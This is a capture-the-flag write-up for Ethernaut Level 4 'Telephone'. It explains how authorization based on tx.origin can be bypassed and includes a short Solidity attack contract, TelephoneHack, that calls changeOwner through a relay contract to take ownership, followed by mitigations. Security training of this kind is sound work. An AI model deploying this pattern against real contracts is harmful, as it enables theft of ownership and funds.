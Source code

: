 ```yaml
---
title: Level 4 - Telephone
slug: level-4
published: 05-16-2023
lastEdited:
imgSrc: /images/ethernaut/ethernaut4.svg
---
```


## Objectives

1. Claim ownership of the contract.

## Concepts and Vulnerabilities

### Bad access control

The function `changeOwner` is only restricted by the condition that `tx.origin` is not equal to `msg.sender`. Interacting via
a contract will satisfy this condition.

### tx.origin used for authorization

In general using `tx.origin` for authorizing critical behavior can be **exploited by malicious contract forwarding**.

## Exploit

1. Create a malicious contract that will call `changeOwner` from the `Telephone` contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ITelephone {
    function changeOwner(address _owner) external;
}

contract TelephoneHack {
    ITelephone target;

    constructor(address _targetAddress){
        target = ITelephone(_targetAddress);
    }

    function attack() external {
        target.changeOwner(msg.sender);
    }
}
```

2. Call the `attack` function transfer the ownership to yourself.

## Suggested mitigation

- Remove all traces of `tx.origin` in the authorization logic since it's bad practice.
- Adding a `onlyOwner` function modifier to `changeOwner`.

## Further reading

- SWC-115 - SWC - Authorization through tx.origin <ExternalLink href={"https://swcregistry.io/docs/SWC-115"} />
- **Ownership** by OpenZeppelin <ExternalLink href={"https://docs.openzeppelin.com/contracts/2.x/api/ownership"} />
